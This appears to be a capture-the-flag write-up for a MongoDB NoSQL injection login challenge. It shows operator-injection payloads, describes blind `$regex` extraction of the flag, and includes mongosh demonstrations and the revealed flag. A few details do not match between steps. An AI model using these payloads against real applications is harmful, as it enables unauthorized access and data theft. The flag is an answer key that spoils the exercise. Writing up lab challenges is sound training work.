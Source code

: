 # NoSQL injection - Authentication

**Point**: 35 Points

**Title**: Find me

**Description**: Find the username of the hidden user.

## Analysis (This just for newbie):

We again have a form that needs to be bypassed.

<p align="center"><img src="images/loginform.png"></p>

Skip some challenge's names, I should have a quick test with simple payload:

```
?chall_name[$ne]=1&flag[$ne]=1
```

<p align="center"><img src="images/filter.png"></p>

"Associative array" techniques may not work.

Now, focus on the obvious condition that we know the correct "challenges", 1 field in this form. So with this data, I straightforwardly think of constructing a payload that use "OR" operator  to bypass as normal-case SQL Injection. I learn that from the [provided document](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf?_gl=1*zh58dy*_ga*MTU3NDQyNTQwNy4xNjYyMTI2NjEx*_ga_SRYSKX09J7*MTY2MjEzMjQxNC4xMi4wLjE2NjIxMzI0MjYuMC4wLjA.). Payload:

```
chall_name=bluebox", $or: [ {}, { "1":"1&flag=" } ], $comment:"successful MongoDB injection"
```

MongoDB execute the query look like this:

```mongodb
db.chall.find({"chall_name": "injection1", "flag": "injection2")
```

After we inject malicious command:

```mongodb
db.chall.find({"chall_name": "bluebox", $or: [ {}, { "1":"1", "flag": "" } ], $comment:"Hacked by khangtictoc"")
```

This is equivalent to `SELECT * FROM chall WHERE chall_name="bluebox" OR (True AND ("1"="1" AND flag="")) // Hacked by khangtictoc`. We must know a specific `chall_name` to conduct attack, this was given with "bluebox, zeusbot, nosqlblind" for us to test.

But, unfortunately:

<p align="center"><img width=400 height=180 src="images/wrong.png"></p>

Whoops! Maybe the backend handles this too. 

So we really lost our track? It takes much time to test more and I surprisingly notice that there is a vulnerability in `flag` box. They do not apply filter on this compared to `chall_name` one. Now things are done, combining with the title "Blind SQL" and our goal is to check the correct flag.

To achieve the goal, I write a **Python** code and use `$regex` to make a comparison with actual flag's pattern. I check printable characters except some special cases and loop on each flag's position. I let my code [here](solve.py)

## Solution:

Run `solve.py` *(Make sure to use a VPN or fixed IPv6 address).* The code content I have explained clearly with comments.

<p align="center"><img src="images/result.png"></p>

A little hard-working. Right?

## More Explanations:

> Note: This only for deeper understanding

`$regex` is the most best-fit way I could come up with. Besides, there are some special chars that we should avoid when comparing like ['*' , '+', '.', '?', '|', '&', '$']. This will make the regex pattern work as the way we do not want or predict.

> Note: Regex in MongoDB acts a little different when compared to others.

Try some examples with `mongosh` (MongoShell):

`Wrong match case with first correct characters or strings`. The case includes ['*' , '+', '.', '?', '|']

```shell
test> use test
already on db test
test> db.test.insertOne({"flag": "3iteasytomisunderstanding"})
{
  acknowledged: true,
  insertedId: ObjectId("63121aef6fe86849cca910f6")
}
test> db.test.find({"flag": {$regex: "^3*"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3+"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3."}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3?"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3|"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
```

`Wrong match case when ending the searching`. The case includes ['&'], this shows the mark of ending the pattern, so it's still matched.

```shell
test> db.test.insertOne({"flag": "3@sY_n0_5q7_1nj3c710n"})
{
  acknowledged: true,
  insertedId: ObjectId("63122a536fe86849cca910f7")
}
test> db.test.find({"flag": {$regex: "^3@sY_n0_5q7_1nj3c710n$$$$$$$$$$$$$$$$$$$$"}})
```

Flag: **3@sY_n0_5q7_1nj3c710n**
